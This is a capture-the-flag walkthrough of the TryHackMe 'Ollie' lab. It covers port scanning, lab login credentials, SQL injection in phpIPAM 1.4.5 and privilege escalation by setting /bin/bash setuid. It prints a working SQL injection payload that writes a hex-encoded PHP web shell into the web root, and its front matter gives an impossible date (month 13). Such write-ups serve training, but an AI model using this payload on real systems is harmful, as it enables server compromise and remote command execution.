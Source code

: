 ```yaml
---
title: "Ollie"
date: 2025-13-26
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the simple nmap scan and rustscan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:10 +0545
Nmap scan report for 10.10.17.91 (10.10.17.91)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.17.91/index.php?page=login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack
```

Lets enumerate the port 80.
Hmm we spawned on a login page.
![](Pasted%20image%2020250326111427.png)

Lets enumerate further.
![](Pasted%20image%2020250326111557.png)

We might get local file inclusion vulnerability here.
Lets check.
Hmm not working.

Doing directory busting gave us many things.
![](Pasted%20image%2020250326111903.png)
![](Pasted%20image%2020250326111915.png)


Found many thing but nothing seems interesting.
![](Pasted%20image%2020250326112416.png)

Hmm lets also see that port 1337.
![](Pasted%20image%2020250326112455.png)

Interesting.
Lets move forward.
And we got the creds.
![[Pasted image 20250326112621.png]]
Lets try to login on login page.
```
Username: admin
Password: OllieUnixMontgomery!
```

![](Pasted%20image%2020250326112807.png)

## Exploit

Hmmm.
After searching for possible exploits of `[phpIPAM IP address management [v1.4.5]`,we can find this.
![](Pasted%20image%2020250326113019.png)

Hmm it was using a sql injection to upload php shell.
Lets try sql injection to test if it is possible.
![](Pasted%20image%2020250326114401.png)

We can find this in a edit BGP subnet mapping thing.
And we found exact number of columns.
![](Pasted%20image%2020250326114715.png)
![](Pasted%20image%2020250326114736.png)

Hmmm lets try to use that exploit we found on exploitdb.
Or we can do this.
```SQL

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/evil.php' -- -

```

So what happening here is we are using UNION attack and uploaded hexed php web shell by doing `INTO OUTFILE`  into `/var/www/html/yourfile.php` cause `/var/www/html/` is the root directory of web page.
![](Pasted%20image%2020250326120012.png)
![](Pasted%20image%2020250326115750.png)

And we can now use this to execute commands.
![](Pasted%20image%2020250326115844.png)

Now we can get reverse shell by [revshell.com](https://www.revshells.com/)
![](Pasted%20image%2020250326120130.png)

And we can also get full tty shell from here.
[full tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)

![](Pasted%20image%2020250326120530.png)

## Privelege Escalation

We can get a some creds here.
![](Pasted%20image%2020250326121029.png)

But this was not working for user ollie.
After trying and enumerating different thing,there is the password reuse and we can use same password that we got before for user ollie.
![](Pasted%20image%2020250326121429.png)

Now lets try to became root.
I tried different exploits and tried to find different thing but nothing worked.
Linpeas is also not working.[linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
Lets also try pspy.[pspy](https://github.com/DominicBreuker/pspy)
After seeing and trying different things,we can see this.
![](Pasted%20image%2020250326124201.png)

Lets see what is it.
Its nothing.
But we can use it to execute command as root.
```
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

chmod 4777 /bin/bash
# This is weird?
ollie@hackerdog:/tmp$

```

Here we are changing the permission of `/bin/bash` ,giving it with setuid.

![](Pasted%20image%2020250326124516.png)

And Now we are root.
![](Pasted%20image%2020250326124647.png)

## Done

And done.
![](Pasted%20image%2020250326124744.png)

Learned lots of things again.
I hope you are okay,take care :).
